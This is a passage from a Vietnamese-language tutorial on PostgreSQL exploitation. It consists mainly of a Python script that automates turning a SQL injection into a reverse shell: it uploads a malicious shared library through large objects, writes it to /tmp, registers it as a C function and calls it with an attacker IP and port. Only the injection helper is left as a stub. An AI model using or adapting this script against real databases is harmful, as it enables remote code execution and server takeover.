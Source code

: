 **Quyền Hạn Cần Thiết**: Để có thể tạo và gọi các hàm C trong PostgreSQL, người dùng cần phải có quyền superuser hoặc quyền `CREATE` trong schema public.

### Tự Động Hóa Tấn Công

Để tự động hóa quy trình này, bạn có thể sử dụng một script Python như sau:

```python
import requests
import random
import string
import math

# Các tham số cho reverse shell
LHOST = "192.168.0.122"
LPORT = 443

# Sinh chuỗi ngẫu nhiên
def randomString(N):
    return ''.join(random.choices(string.ascii_letters + string.digits, k=N))

# Inject SQL để thực thi câu lệnh
def sqli(q):
    # TODO: Sử dụng SQL Injection để thực thi câu lệnh q
    pass

# Upload extension
with open("pg_rev_shell.so", "rb") as f:
    raw = f.read()

# Tạo large object và upload pg_rev_shell.so
loid = random.randint(50000, 60000)
sqli(f"SELECT lo_create({loid});")
print(f"[*] Đã tạo large object với ID: {loid}")

for pageno in range(math.ceil(len(raw)/2048)):
    page = raw[pageno*2048:pageno*2048+2048]
    print(f"[*] Đang tải trang {pageno}, độ dài: {len(page)}")
    sqli(f"INSERT INTO pg_largeobject (loid, pageno, data) VALUES ({loid}, {pageno}, decode('{page.hex()}','hex'));")

# Kích hoạt reverse shell
query  = f"SELECT lo_export({loid}, '/tmp/pg_rev_shell.so');"
query += f"SELECT lo_unlink({loid});"
query += "DROP FUNCTION IF EXISTS rev_shell;"
query += "CREATE FUNCTION rev_shell(text, integer) RETURNS integer AS '/tmp/pg_rev_shell', 'rev_shell' LANGUAGE C STRICT;"
query += f"SELECT rev_shell('{LHOST}', {LPORT});"
print(f"[*] Đang ghi pg_rev_shell.so vào đĩa và kích hoạt reverse shell (LHOST: {LHOST}, LPORT: {LPORT})")
sqli(query)
```
